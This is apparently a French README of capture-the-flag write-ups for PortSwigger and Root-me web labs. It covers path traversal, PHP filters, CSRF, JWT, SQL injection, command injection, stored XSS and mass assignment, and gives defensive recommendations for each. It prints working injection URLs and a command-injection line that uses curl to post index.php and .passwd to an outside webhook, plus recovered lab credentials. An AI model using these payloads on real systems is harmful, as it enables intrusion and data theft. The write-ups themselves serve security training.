



# Challenges

## Portswigger | [File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

### Étapes :

- Intercepter la requête qui récupère l'image d'un produit
- Tester le path traversal classique en modifiant la valeur du filename -> bad request "no such file" parce que le serveur vérifie l'extension [voir screenshot](./screenshots/path-traversal/path-traversal-without-byte-bypass.png)
- Tester le path traversal en utilisant le null byte suivi d'une extension acceptée par le server -> la réponse de la requête contient le contenu du fichier etc/passwd [voir screenshot](./screenshots/path-traversal/path-traversal-with-byte-bypass.png)

### Recommandations :

- **Références :**

  - https://owasp.org/www-community/attacks/Path_Traversal
  - https://portswigger.net/web-security/file-path-traversal#how-to-prevent-a-path-traversal-attack

- Essayer d'éviter dans la mesure du possible la récupération de fichiers avec une saisie accessible par l'utilisateur
- Si jamais cela ne peut pas être éviter, mettre en place une whitelist pour les fichiers récupérables de cette manière
- Vérifier que l'input ne contienne pas de chaîne de caractères à risque -> assainir la saisie de l'utilisateur
- Utiliser des index plutôt que des noms de fichier/emplacement de fichier pour les récupérer

## Root-me | [PHP Filter](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Filters)

### Étapes :

- L'URL du challenge contient un paramètre qui charge des fichiers : http://challenge01.root-me.org/web-serveur/ch12/?inc=login.php
- Utilisation d'un PHP Filter pour récupérer le contenu du fichier login.php : http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=login.php [voir screenshot](./screenshots/php-filters/php-filter-login-php-contenu.png)
- Décoder la chaine en base 64 obtenue [voir screenshot](./screenshots/php-filters/decodage-login-php.png)
- Le fichier login.php contient un include d'un fichier config.php on récupère son contenu de la même manière que le fichier login : http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php [voir screenshot](./screenshots/php-filters/php-filter-config-php-contenu.png)
- Décoder la chaine en base 64 obtenue [voir screenshot](./screenshots/php-filters/decodage-config-php.png)
- Le fichier config.php contient le password en clair : "DAPt9D2mky0APAF"

### Recommandations :

- **Références** :

  - https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion

- Essayer d'éviter dans la mesure du possible l'inclusion de fichier avec une saisie accessible par l'utilisateur
- Si jamais on ne peut pas éviter l'inclusion, il faut absolument mettre en place une white liste contenant tous les fichiers autorisés à être inclus et refuser les requêtes des fichiers n'étant pas dans cette liste.

## PortSwigger | [CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

### Étapes :

- Connexion avec les identifiants fournis
- On accède à la page permettant de modifier l’email
- On intercepte la requête
- On identifie un paramètre csrf dans le corps de la requête POST.
- On tente alors de :
  - rejouer la requête sans changer de session,
  - rejouer la requête en étant déconnecté,
  - rejouer la requête dans une nouvelle session avec un autre utilisateur.
- On voit que le même token fonctionne dans tous les cas
- Dans l’exploit server, on crée un formulaire qui contient :
  - le token CSRF récupéré
  - une nouvelle adresse email
- On store l’exploit puis on le délivre [voir screenshot](./screenshots/csrf-not-tied/lab3.png)
- Le mail est changé -> lab validé

### Recommandations :

- **Références :**

  - https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
  - https://owasp.org/www-community/attacks/csrf

- Associer chaque token CSRF à la session utilisateur
- Générer des tokens CSRF robustes et imprédictibles

## PortSwigger | [CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)

### Étapes :

- Connexion avec les identifiants fournis
- On accède à la page permettant de modifier l’email
- On intercepte la requête
- On observe qu'il n’existe aucun token CSRF dans le formulaire
- Seule protection -> vérification du header Referer
- On teste plusieurs variations :
  - Modif le contenu du Referer -> refusé
  - Fournir un Referer externe -> refusé
  - Supprimer complètement le header Referer -> accepté
- On en déduit que si Referer présent -> vérification origine sinon -> aucune vérification
- Dans l’exploit server, on crée un formulaire contenant uniquement le champ email
- On store l’exploit puis on le délivre [voir screenshot](./screenshots/csrf-referer/lab1.png)
- Plus aucun contrôle -> modification de l’email -> lab validé

### Recommandations :

- **Références :**

  - https://owasp.org/www-community/SameSite
  - https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#synchronizer-token-pattern

- Implémenter un véritable token CSRF synchronisé avec la session
- Configurer le cookie de session avec Strict

## Root-me | [JWT - Jeton révoqué](https://www.root-me.org/fr/Challenges/Web-Serveur/JWT-Jeton-revoque)

### Étapes :

- Se connecter grâce au login contenu dans le code source du challenge et récupérer le token [voir screenshot](./screenshots/jwt-revoke/jwt-revoke-login.png)
- Essayer d'accéder à la page admin via le GET -> erreur Missing Authorization Header
- Essai d'ajouter le token obtenu via le login dans le Header Authorization de la page admin -> on obtient l'erreur Token is revoked en réponse
- On remarque grâce au code source qu'un token est considéré revoked quand il est présent dans la blacklist. Un token est ajouté à la blacklist dès qu'il est créé via l'endpoint de login -> il faut trouver un moyen d'éviter l'ajout à la blacklist ou que le token soit considéré comme étant dans la blacklist
- Il n'y a pas de moyen d'empêcher l'ajout du token à la blacklist
- On ne peut pas modifier les deux premières parties du jwt sans le rendre invalide, il faut donc trouver un moyen d'avoir un token différent mais toujours valide
- Utiliser le padding base64 des JWT au niveau de la signature -> récupérer un token via l'endpoint de login puis l'ajouter au header Authorization du endpoint admin en ajoutant un = à la fin [voir screenshot](./screenshots/jwt-revoke/jwt-revoke-admin.png)
- On a maintenant accès à la route admin avec le flag

### Recommandations :

- **Références :** https://curity.io/resources/learn/jwt-best-practices/

- Éviter d'utiliser une simple comparaison de string pour vérifier la validité d'un JWT mais se baser plutôt sur l'id du JWT

## Root-me | [SQL injection - Error](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Error?lang=fr)

### Étapes :

- Différents tests pour essayer de faire des injections sql via les champs de formulaire -> peu importe la syntaxe testée le formulaire renvoie toujours l'erreur : login failed
- En inspectant la réponse des requêtes on remarque que le lien de la page contents contient comme paramètres order=ASC
- Test de faire l'injection sql directement via l'URL :
  - http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- - [voir screenshot](./screenshots/sql-injection/error1.png)
  - Avec ceci on obtient l'erreur ce qui veut dire que l'injection est possible via l'url :
- Essayer d'obtenir la liste des tables avec l'injection suivante : http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC,(SELECT%20CAST(table_name%20AS%20int)%20FROM%20information_schema.tables%20LIMIT%201) [voir screenshot](./screenshots/sql-injection/error2.png)
  - On obtient comme réponse : ERROR: invalid input syntax for integer: "m3mbr35t4bl3", on en déduit que le nom de la table est "m3mbr35t4bl3"
- Récupération des différentes colonnes de la table : http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC,(SELECT%20CAST(array_to_string(array_agg(column_name::text),%27,%27)%20AS%20int)%20FROM%20information_schema.columns%20WHERE%20table_name=$$m3mbr35t4bl3$$) [voir screenshot](./screenshots/sql-injection/error3.png)
  - On en déduit que les colonnes de la table sont : id, us3rn4m3_c0l, p455w0rd_c0l, em41l_c0l
- Récupération de la liste des combinaisons username, password : http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC,(SELECT CAST(us3rn4m3_c0l||$$:$$||p455w0rd_c0l AS int) FROM m3mbr35t4bl3 LIMIT 1) [voir screenshot](./screenshots/sql-injection/error4.png)
  - Erreur reçu en réponse : ERROR: invalid input syntax for integer: "admin:1a2BdKT5DIx3qxQN3UaC"

### Recommandations :

- **Références :**

  - https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection
  - https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

- Éviter de mettre directement les valeurs saisies par l'utilisateur dans les requêtes SQL et utiliser plutôt des requêtes préparées.
- Mettre en place une whiteliste pour les saisies utilisateur si possible
- Éviter d'afficher les messages d'erreur SQL détaillés pour limiter la divulgation d'informations sur la structure de la base de données.

## Root-me | [Injection de commande - Contournement de filtre](https://www.root-me.org/fr/Challenges/Web-Serveur/Injection-de-commande-Contournement-de-filtre)

### Étapes :

- Tests de différentes syntaxes pour injecter d'autres commandes dans le formulaire du ping
  - Certains essais donnaient une syntax error
  - Syntaxe pour bypass le filtre trouvée : 127.0.0.1 %0a cat index.php
- La requête ne donne aucune autre réponse que ping ok même avec un echo simple
- Récupérer directement le contenu du fichier index.php via une commande curl à la place d'essayer de l'afficher sur la page : 127.0.0.1 %0a curl -X POST https://webhook.site/8b79e531-44c3-4b31-bd52-9f2336b86c6b --data-binary "@index.php" [voir screenshot](./screenshots/injection-commande/injection-commande-index-php.png)
- On remarque dans le contenu du fichier index.php une variable flag qui récupère le contenu d'un fichier .passwd [voir screenshot](./screenshots/injection-commande/injection-commande-index-php-contenu.png)
- On procède de la même manière avec une commande curl pour récupérer le contenu du fichier .passwd : 127.0.0.1 %0a curl -X POST https://webhook.site/8b79e531-44c3-4b31-bd52-9f2336b86c6b --data-binary "@.passwd" [voir screenshot](./screenshots/injection-commande/injection-commande-passwd.png)

### Recommandations :

- **Références :**

  - https://owasp.org/www-community/attacks/Command_Injection

- Éviter de mettre directement la saisie utilisateur dans la commande
- Assainir la donnée saisie par l'utilisateur

## Root-me | [XSS Stockée 2](https://www.root-me.org/fr/Challenges/Web-Client/XSS-Stockee-2)

### Étapes :

- Ouvrir le site avec Burpsuite
- Envoyer un message via le formulaire
- Regarder la requête envoyée dans Burpsuite
- On constate que le cookie "statut" a la même valeur que le statut affiché à côté du message envoyé par l'utilisateur
- On teste si on peut modifier la valeur du cookie "statut" pour y mettre autre chose
- En mettant admin par exemple, on constate que le message envoyé affiche bien "admin" à côté et que la couleur du message est différente (rouge)
- On en déduit qu'il est probablement possible d'injecter du code JS dans le cookie "statut"
- On teste avec une payload simple : 
- ça ne fonctionne pas, il faut essayer d'échapper des charactères afin de correctement injecter le script
- On teste avec la payload suivante : '>
- Le script s'exécute bien, on peut donc injecter du code JS via le cookie "statut"
- On peut maintenant injecter une payload plus complexe pour récupérer les cookies des autres utilisateurs qui visitent la page
- Payload final : ">
- Ce payload permet d'envoyer les cookies de l'utilisateur à une URL externe (webhook.site dans notre cas afin de les récupérer facilement) voir image [ici](screenshots/xss-stockee-2/repeated-request.png)
- On envoie la requête et on récupère les cookies dans webhook.site
- Il ne reste plus qu'à s'ajouter le cookie ADMIN_COOKIE avec la valeur récupéré pour se connecter en tant qu'admin (directement dans le navigateur par exemple) voir image [ici](screenshots/xss-stockee-2/using-the-admin-cookie.png)
- On accède à la page admin et on récupère le mot de passe pour valider le challenge

### Recommandations :

- **Références :**

  - https://owasp.org/www-community/attacks/xss/
  - https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

- Ne pas stocker des données sensibles dans des cookies accessibles en JavaScript
- Utiliser l'attribut HttpOnly pour les cookies sensibles afin d'empêcher l'accès via JavaScript
- Mettre en place une validation et un encodage approprié des données avant de les afficher dans la page web

## Root-me | [API Mass Assignment](https://www.root-me.org/fr/Challenges/Web-Serveur/API-Mass-Assignment?lang=fr)

### Étapes :

- Se rendre sur le swagger de l'API [Swagger UI Du Challenge](http://challenge01.root-me.org:59090)
- Effectuer la requête pour créer un nouvel utilisateur [Requête de création](screenshots/api-mass-assignment/create-user-request.png)
- Effectuer la requête pour se connecter avec l'utilisateur créé et récupérer le cookie d'authentification[Requête de login](screenshots/api-mass-assignment/login-request-and-cookie.png)
- Effectuer la requête pour récupérer les informations de l'utilisateur connecté, on constate que la propriété status est "guest". [Requête get user info](screenshots/api-mass-assignment/get-user-info-request.png)
- On effectue la requête pour récupérer le "secret flag" mais on obtient une erreur d'autorisation "Unauthorized, user is not admin.". [Requête get secret flag](screenshots/api-mass-assignment/get-secret-flag-request.png)
- Le statut de l'utilisateur est "guest", on va essayer de le passer en "admin" comme nous l'informe la requête précédente via une requête de mise à jour des informations utilisateur [Requête update user info](screenshots/api-mass-assignment/update-user-info-request.png)
- Il n'existe pas de requête spécifique pour mettre à jour le statut de l'utilisateur dans le swagger mais l'on sait que la méthode HTTP PUT est normalement utilisée pour mettre à jour des ressources.
- On démarre Postman et on tente d'effectuer une requête PUT sur l'endpoint /api/user en ajoutant la propriété status avec la valeur "admin" dans le corps de la requête ET en utilisant notre cookie récupéré précédemment.  
- On refait une requête GET sur l'endpoint /api/user pour vérifier que le statut a bien été mis à jour. 
- On constate que le statut est bien passé en "admin", on peut maintenant à nouveau tenter de récupérer le secret flag en effectuant une requête GET sur l'endpoint /api/secret. 
- On obtient le flag pour valider le challenge.

### Recommandations :

- **Références :**

  - https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html

- Mettre en place une whitelist des propriétés pouvant être mises à jour via les API
- Valider et assainir les données reçues via les API avant de les utiliser pour mettre à jour des ressources
